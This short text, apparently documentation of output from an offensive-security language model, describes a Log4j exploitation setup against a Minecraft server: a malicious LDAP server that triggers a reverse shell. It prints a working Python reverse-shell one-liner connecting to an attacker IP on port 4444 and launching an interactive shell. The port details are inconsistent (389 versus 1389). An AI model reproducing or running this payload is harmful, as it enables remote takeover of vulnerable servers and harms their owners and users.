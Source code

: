 This script sets up an LDAP server that listens on port 389 and executes a reverse shell when it receives a connection. The HTTP request to trigger the Log4j vulnerability is crafted to point to this
malicious LDAP server.

Note: This script assumes you have a Minecraft server running with the vulnerable Log4j library. It also assumes that your local machine has an IP address of '10.0.2.15' and a network interface listening on port 1389. Adjust these values as needed for your specific environment.

Also, this script uses the `nc` command to set up the reverse shell. If you don't have `nc` installed, you can use other commands like `python -c 'import socket, subprocess, os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([ "/bin/sh", "-i" ]);s.close()'`.
This will open a reverse shell on the target machine, listening on port 4444.
## references
* [ollama docs](https://github.com/ollama/ollama/blob/main/docs/import.md)
* [0dAI model](https://huggingface.co/0dAI/0dAI-7.5B-v2)
  